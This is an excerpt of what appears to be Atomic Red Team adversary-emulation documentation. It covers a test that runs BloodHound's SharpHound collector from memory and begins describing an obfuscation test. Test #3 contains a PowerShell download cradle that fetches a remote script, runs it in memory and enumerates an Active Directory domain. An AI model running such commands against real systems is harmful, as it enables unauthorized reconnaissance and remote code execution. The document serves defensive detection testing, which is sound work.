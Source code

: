 


<br/>
<br/>

## Atomic Test #3 - Run Bloodhound from Memory using Download Cradle
Upon execution SharpHound will load into memory and execute against a domain. It will set up collection methods, run and then compress and store the data to the temp directory. If system is unable to contact a domain, proper execution will not occur.

Successful execution will produce stdout message stating "SharpHound Enumeration Completed". Upon completion, final output will be a *BloodHound.zip file.

**Supported Platforms:** Windows


**auto_generated_guid:** bf8c1441-4674-4dab-8e4e-39d93d08f9b7






#### Attack Commands: Run with `powershell`! 


```powershell
write-host "Remote download of SharpHound.ps1 into memory, followed by execution of the script" -ForegroundColor Cyan
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1');
Invoke-BloodHound -OutputDirectory $env:Temp
Start-Sleep 5
```

#### Cleanup Commands:
```powershell
Remove-Item $env:Temp\*BloodHound.zip -Force
```





<br/>
<br/>

## Atomic Test #4 - Obfuscation Tests
Different obfuscated methods to test. Upon execution, reaches out to bit.ly/L3g1t and displays: "SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION"

**Supported Platforms:** Windows


**auto_generated_guid:** 4297c41a-8168-4138-972d-01f3ee92c804





